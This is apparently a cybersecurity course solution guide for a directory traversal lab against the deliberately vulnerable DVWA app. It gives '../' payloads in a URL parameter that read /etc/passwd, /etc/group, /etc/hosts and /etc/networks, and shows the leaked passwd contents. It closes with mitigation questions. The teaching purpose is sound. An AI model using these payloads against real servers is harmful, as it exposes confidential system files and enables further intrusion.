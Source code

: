 ## Solution Guide: Directory Traversal 

In this activity, you were tasked with testing the intended purpose of an application to view back-end files from the web application's server. You were then tasked with manipulating the URL with the dot-slash technique to view confidential and hidden files on the web application server.

---

1. Test the intended use of the web application.

    - View the contents of `File1.php`.
      
      - Select the link to `File1.php`, and note the following:
      
          - The URL changes to <http://192.168.13.25/vulnerabilities/fi/?page=file1.ph>.
          
          - Note that the parameter references the file that was selected: `?page=file1.php`.
        
          - The content on the webpage was displayed:
      
              `Hello admin
              Your IP address is: 192.168.13.1`
          
      - Select the other links (`File2.php` and `File3.php`) and note their URL and webpage changes.
      
      - Note that the intended purpose of this application is to provide a user access to those three files only. 

2. On Vagrant, open the terminal. 

      - Connect to the container of the Replicants webpage:

        - `docker exec -it dvwa bash`
      
      - Once you have connected to the container, run the following command to access the directory where `file1.php`, `file2.php`, and `file3.php` are located:

        - `cd /var/www/html/vulnerabilities/fi`

      - View the files in this directory using the `ls` command.

        - Note that you should see the files `file1.php`, `file2.php`, and `file3.php`.

      - View the contents at the top of `file2.php`:
        
        -  `head file2.php`
      
        - Note how this file contains HTML that matches what you saw on the Replicants website when you clicked on `file2.php`:
          
          - `<em>I needed a password eight characters long so I picked Snow White and the Seven Dwarves.</em>\" ~ Nick Helm<br /><br />`

        - Take note of the other `file<#>.php` file located in this directory. 

    - **Solution**: The other `file<#>.php` file located in this directory is `file4.php`.
 
3. Test the unintended consequences of this application.
 
    - We saw another `file<#>.php` file in that directory. That file does not have a link to access on Replicant's webpage. Try to access it by modifying the parameter of the URL.

      - **Solution**: To view `file4.php`, change the URL to <http://192.168.13.25/vulnerabilities/fi/?page=file4.php>.

      - The parameter changed to `?page=file4.php`.
        
      - The webpage will display the following message:
          
            File 4 (Hidden)
            Good job!
            This file isn't listed at all on DVWA. If you are reading this, you did something right ;-)
          
4. Traverse through other paths. 

    - In Part 3, you modified the parameter of the URL to view a hidden file. Try to access the `passwd` file by modifying the parameter of the URL again.

    - **Solution**: To view the `passwd` file, you need to use the dot-slash method.
      
      - First we need to determine how many directories back the top of the directory structure is. Because the files are located in `/var/www/html/vulnerabilities/fi#`, they are five files deep.

        - To go back five directories, we use the dot-slash method five times. Then we go forward to access the `/etc/passwd` file:

          - `../../../../../etc/passwd`

        - The complete URL will look like the following, when we place the payload as the parameter: <http://192.168.13.25/vulnerabilities/fi/?page=../../../../../etc/passwd>.

      - This will display the `/etc/passwd` file at the top of the page:

          ```
            root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin       sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/bin/false mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
        ```

      - Note that if we don't know how many directories back to go, we keep testing payloads until we see the `passwd` file. For example: 

        -  `../etc/passwd`

        -  `../../etc/passwd`

        - `../../../etc/passwd`

        - `../../../../etc/passwd`

5. **Bonus**: Previously, you were modified the URL to view the file `passwd`. Try to access other files (such as the hosts, group, or networks) using the same techniques.

    - If you can access the files, research online and document what data those files contain.

    - **Solution**: To view the files for hosts, group, or networks, you need to use the same dot-slash method.

      - The URLs for each of these are as follows:

        - <http://192.168.13.25/vulnerabilities/fi/?page=../../../../../etc/group>
      
        - <http://192.168.13.25/vulnerabilities/fi/?page=../../../../../etc/networks>
      
        - <http://192.168.13.25/vulnerabilities/fi/?page=../../../../../etc/hosts>
        
      - These files contain the following information:

        - `group`: Contains all the groups and members for that linux server.

        - `networks`: Translates IP addresses to network names.
        
        - `hosts`: Maps host names to IP addresses.
      
6. Answer the following mitigation strategy questions: 

    - Describe to your management how a malicious user could take advantage of the vulnerabilities that you just exploited. Be sure to include the potential impact.

        - Impacts could include:

          - Display of confidential data such as user information, system accounts, services being ran, networking information (IP Addresses).

          - All of the confidential information could be used to apply other types of attacks.

    - Describe how you would mitigate the vulnerabilities you just exploited.

      - Mitigation options can include:

        - Server-side validation that does not allow selection of unintended files.

        - Segregation of confidential files from the web server and accessible directories.

        - Permissions to restrict web server account accessibility.
        
      - Refer to the following page for a more comprehensive list of directory traversal mitigations: 

        - [Hacksplaining: Preventing Directory Traversal](https://www.hacksplaining.com/prevention/directory-traversal)    

  
___

© 2021 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved. 
